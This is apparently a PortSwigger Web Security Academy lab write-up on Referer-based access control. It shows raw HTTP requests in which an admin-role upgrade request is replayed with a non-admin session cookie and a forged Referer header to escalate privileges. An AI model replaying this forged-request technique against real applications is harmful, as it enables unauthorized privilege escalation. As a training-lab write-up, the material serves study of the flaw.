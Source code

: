 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f068d0fd-917f-4b17-9a95-6255eb94d112)

## Solution:

> Some websites **base access controls on the Referer header submitted in the HTTP reques**t. The Referer header is generally added to requests by browsers to indicate the page from which a request was initiated.
>
> For example, suppose an application robustly enforces access control over the main administrative page at **/admin**, but for sub-pages such as **/admin/deleteUser** only inspects the Referer header. If the 
> Referer 
> header contains the main **/admin** URL, **then the request is allowed**.
> 
> In this situation, since the Referer header can be fully controlled by an attacker, they can forge direct requests to sensitive sub-pages, supplying the required Referer header, and so gain unauthorized access. 

#### Login as admin -

First lets familiarize ourselves by loggin in as admin.

Clicking onm admin panel link after loggin in, takes us to this page where we can change privileges of a user.

When we upgrade carlos user privileges, the request sent is as follows,

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a9f0016047a441d81097f3e003900e8.web-security-academy.net
Cookie: session=j2REEeD3vHVXEKzXE7q1Hi98AQ2pCmsz
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9f0016047a441d81097f3e003900e8.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

We can see that it has a **referrer header** which points to **/admin**.

## Login as wiener -

Our goal now is to upgrade ourselves

Grab the cookie value of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c0ffd4fc-b436-4d69-8ccc-3acc4adac1f2)


Cookie of admin -  `j2REEeD3vHVXEKzXE7q1Hi98AQ2pCmsz`
Cookie of wiener - `5u7PdoLWbATX6gzuN3kWxwBpsYbPC7dd`

Send the request where the privileges were changed by admin but by replacing admin cookie with wiener's cookie (non-admin)

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a9f0016047a441d81097f3e003900e8.web-security-academy.net
Cookie: session=5u7PdoLWbATX6gzuN3kWxwBpsYbPC7dd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9f0016047a441d81097f3e003900e8.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

The focus of this lab is , if referrer based verification is made, then we can explioit it

#### With /admin in referrer header

We get `302 - redirect`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e136b2b4-c355-4cfa-abb0-699f5c526b90)

#### Without /admin in referrer header

We get `401 - Unauthorized`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a884ecb4-5ca1-421f-96a1-6db2f5667f25)

Thus we solved the lab by upgrading ourselves(wiener) to higher privilege.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c4d1440a-1f36-489f-b2fd-6dda2a93300d)




